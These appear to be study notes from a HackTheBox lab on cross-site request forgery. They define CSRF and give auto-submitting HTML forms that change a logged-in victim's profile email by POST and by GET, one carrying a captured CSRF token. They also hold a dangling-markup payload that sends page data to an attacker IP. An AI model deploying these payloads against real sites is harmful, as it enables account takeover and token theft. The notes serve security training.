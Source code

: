 ____

Cross-Site Request Forgery (CSRF or XSRF) is an attack that forces an end-user to execute inadvertent actions on a web application in which they are currently authenticated.

```html
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

While logged into the target user account, open a new tab and visit the URL hosted on the attacking machine: `http://<Attacker_IP>:<Port>/malicious.html`. Upon visiting the page, you'll observe that the target user's profile details will be altered based on the data embedded within the malicious HTML page being served by the attacker.

![[Pasted image 20241012104931.png]]

# GET-based

```html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="5d3d079457440b13e88ad917fcab3b2ff6f1ec9d" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

# POST-based

```html
<table%20background='%2f%2f<VPN/TUN Adapter IP>:PORT%2f
```

